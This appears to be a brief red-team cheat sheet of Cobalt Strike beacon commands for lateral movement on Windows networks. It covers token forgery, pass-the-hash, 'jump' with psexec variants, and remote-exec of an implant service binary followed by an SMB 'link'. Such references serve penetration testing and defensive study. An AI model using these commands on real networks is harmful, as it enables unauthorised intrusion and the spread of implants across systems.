 # Cobalt Strike

Search Tag(s): #lateral-movement #cobalt-strike #psexec #windows

## 01 - Jump

```
beacon> make_token <domain>\<username> <password>

beacon> pth <domain>\<username> <password>

beacon> jump <psexec | psexec_psh | psexec64> <listener> <IP>
```

## 02 - Remote-Exec

```
beacon> make_token <domain>\<username> <password>

beacon> pth <domain>\<username> <password>

beacon> remote-exec psexec <IP> C:\path\to\implantsvc.exe

beacon> link \\<IP>
```